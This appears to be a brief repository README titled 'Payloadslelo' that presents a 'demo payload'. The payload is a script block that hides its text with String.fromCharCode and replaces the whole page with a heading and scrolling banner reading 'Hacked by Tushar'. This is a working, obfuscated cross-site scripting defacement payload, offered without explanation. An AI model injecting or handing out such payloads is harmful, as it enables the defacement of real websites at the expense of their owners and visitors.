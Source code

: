 # Payloadslelo
MLVTEC Demo Payload


Here is the payload

<script>
    document.documentElement.innerHTML = String.fromCharCode(
        60, 104, 49, 62, 72, 97, 99, 107, 101, 100, 32, 98, 121, 32, 84, 117, 115, 104, 97, 114, 60, 47, 104, 49, 62, 
        60, 109, 97, 114, 113, 117, 101, 101, 62, 72, 97, 99, 107, 101, 100, 32, 98, 121, 32, 84, 117, 115, 104, 97, 114, 60, 47, 109, 97, 114, 113, 117, 101, 101, 62
    );
</script>
